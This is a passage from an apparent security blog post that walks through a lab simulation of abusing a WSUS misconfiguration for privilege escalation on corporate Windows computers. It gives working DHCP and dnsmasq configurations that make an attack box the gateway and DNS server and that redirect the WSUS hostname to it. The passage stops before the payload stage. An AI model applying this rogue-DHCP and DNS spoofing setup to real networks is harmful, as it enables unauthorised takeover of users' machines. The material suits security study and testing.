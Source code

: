 ```yaml
---
layout: post
title: Exploiting WSUS misconfiguration to priviledge escalate on companies Windows computers
---
```


In this post we will explore a simulation of a possible attack that I have spotted in the wild. Given that by company policy I am not allowed to alter the original PCs, this will be a simulated environment using VMs recreated as loyally as possible to the original golden image.

## Pre-requisites
- Being able to control the network's DHCP
  - This can be achieved in multiple ways in reality, but the way I'll do it is by bridging network interfaces and disconnecting the "wifi"
  - An example of more "stealthy" attack would be to host a wifi network
- Having a DNS server (possibly on the same network)
- [pywsus](https://github.com/GoSecure/pywsus)
- [Sysinternals](https://learn.microsoft.com/en-us/sysinternals/) or any Microsoft signed executable

## Setup
To perform this attack I will use a Kali machine with the following packages installed from `apt`: `isc-dhcp-server` and `dnsmasq` (technically dnsmasq also has a DHCP server) and the git clone'd pywsus
The target machine is a Windows 10 machine. We normally are only given a AD User without access to the machine's administration.

We want the two machines to be in the same network, either by having one common "internet-less" connection or, say in a more realistic scenario, by being in the same wifi (and maybe guessing the often weak admin password for the router). Normally this attack is performed using [bettercap](https://github.com/bettercap/bettercap) but in this case I decided to go for a different route as I am not sure how easy it is to get into the same subnet in the company environment (and I didn't want to try and upset the IT departent (again)).

### dhcp
We will configure the attack box on IP `192.168.222.1` as the gateway, dhcp server and dns server (and later on the wsus server too).
The subnet will be `192.168.222.0/24` and we will let the Windows client pick any IP

Edit `/etc/dhcp/dhcpd.conf`:

```
subnet 192.168.222.0 netmask 255.255.255.0 {
  interface eth1;
  range 192.168.222.10 192.168.222.50;
  option subnet-mask 255.255.255.0;
  option routers 192.168.222.1;
  option domain-name-servers 192.168.222.1, 192.168.222.10;
  option domain-name "swag.com";
}
```


Edit `/etc/default/isc-dhcp-server`:

```
# Edit with the interface that shares the connection with the Windows machine
INTERFACESv4="eth1"
INTERFACESv6=""
```

### dns
We modify `/etc/dnsmasq.conf` as follows:

```
domain-needed
listen-address=127.0.0.1
listen-address=192.168.222.1
bind-interfaces

address=/wsusserver.domain.internal/192.168.222.1
```
